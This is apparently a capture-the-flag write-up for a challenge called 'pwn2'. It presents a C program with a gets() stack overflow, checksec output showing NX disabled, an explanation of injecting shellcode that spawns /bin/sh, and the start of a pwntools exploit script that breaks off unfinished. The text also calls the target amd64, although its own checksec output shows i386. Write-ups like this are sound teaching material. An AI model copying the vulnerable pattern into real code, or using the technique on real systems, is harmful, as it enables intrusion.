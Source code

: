 ## pwn2

```text
❯ checksec chall
[*] '/home/sky/Documents/binex/stack_exec/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

```text
#include <stdio.h>
#include <stdlib.h>


int vuln() {
	char data[128];
	printf("What would you like to store in memory today (%x)?\n", &data);
	gets(data);
}

int main(){
	setvbuf(stdout, NULL, _IONBF, 0);
	vuln();
}
```

NX is off which means that we can execute instructions on the stack and the program very kindly tells us the location we're writing to.  Our goal here is to write shellcode onto the stack and then overwrite the return pointer to the address we received earlier.  

### shellcode
Wikipedia says 
```text
In hacking, a shellcode is a small piece of code used as the payload in the exploitation of a software vulnerability. It is called "shellcode" because it typically starts a command shell from which the attacker can control the compromised machine, but any piece of code that performs a similar task can be called shellcode. Because the function of a payload is not limited to merely spawning a shell, some have suggested that the name shellcode is insufficient.[1] However, attempts at replacing the term have not gained wide acceptance. Shellcode is commonly written in machine code. 
```

What we're going to be using is linux amd64 instructions which execute `execve("/bin/sh")`.  I use pwntools to generate this for me but [shell-storm](http://shell-storm.org/shellcode/) is also a good resource.  


```python
#!/usr/bin/env python3

from pwn import *
import re

context.log_level = logging.ERROR

exe = ELF("./chall")

context.binary = exe
context.terminal = ["termite","-e"]

def conn():
    if args.LOCAL:
        return process([exe.path])
```